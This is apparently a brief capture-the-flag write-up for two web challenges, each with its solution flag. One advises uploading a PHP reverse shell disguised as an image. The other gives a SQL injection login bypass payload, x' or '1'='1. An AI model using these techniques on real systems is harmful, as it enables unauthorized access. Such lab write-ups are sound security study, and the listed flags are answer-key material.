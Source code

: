 ## Gallery
Use web revert shell (must end w/ .php)

flag : ``
oh_no!_it_was_not_an_img
``

## Simple Question of Logic 1
use this in both fields ([ctf101](https://ctf101.org/web-exploitation/sql-injection/what-is-sql-injection/) . [sqlmap](https://d00mfist.gitbooks.io/ctf/content/sql-injections.html) . [hacktricks](https://book.hacktricks.xyz/pentesting-web/login-bypass))

```
x' or '1'='1
x' or '1'='1
```

flag : ``
Th1s_0n3_w4s_34sY!!!
``
